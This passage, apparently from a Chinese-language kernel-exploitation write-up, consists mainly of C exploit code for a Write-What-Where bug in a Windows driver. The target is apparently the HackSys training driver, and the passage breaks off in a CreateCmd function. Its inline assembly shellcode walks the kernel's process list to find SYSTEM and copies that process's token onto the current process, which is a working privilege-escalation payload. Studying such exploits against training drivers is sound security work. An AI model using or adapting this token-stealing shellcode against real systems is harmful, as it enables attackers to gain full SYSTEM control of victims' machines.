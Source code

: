 ### 0x5 快速食用指南

![](http://23.91.100.118:8080/images/2020/06/16/504b2686e5ead1252aa84fcc39fba181.png)

### 0x6 Exp

```c
#include<Windows.h>
#include<stdio.h>
#include<Psapi.h>
#include<profileapi.h>
#define Write_What_Where  0x22200B
/************************************************************************/
/*                 Write by Thunder_J 2019.7                            */
/*                     Write-What-Where                                 */
/************************************************************************/

typedef struct _WRITE_WHAT_WHERE
{
	PULONG_PTR What;
	PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;

typedef NTSTATUS(WINAPI* NtQueryIntervalProfile_t)(
	IN ULONG ProfileSource,
	OUT PULONG Interval
	);

HANDLE hDevice = NULL;

static VOID ShellCode()
{
	_asm
	{
		//int 3
		pop edi	// the stack balancing
		pop esi
		pop ebx
		pushad
		mov eax, fs: [124h]		// Find the _KTHREAD structure for the current thread
		mov eax, [eax + 0x50]   // Find the _EPROCESS structure
		mov ecx, eax
		mov edx, 4				// edx = system PID(4)

		// The loop is to get the _EPROCESS of the system
		find_sys_pid :
		mov eax, [eax + 0xb8]	// Find the process activity list
		sub eax, 0xb8    		// List traversal
		cmp[eax + 0xb4], edx    // Determine whether it is SYSTEM based on PID
		jnz find_sys_pid

		// Replace the Token
		mov edx, [eax + 0xf8]
		mov[ecx + 0xf8], edx
		popad
		//int 3
		ret
	}
}

static VOID CreateCmd()
{
	STARTUPINFO si = { sizeof(si) };
```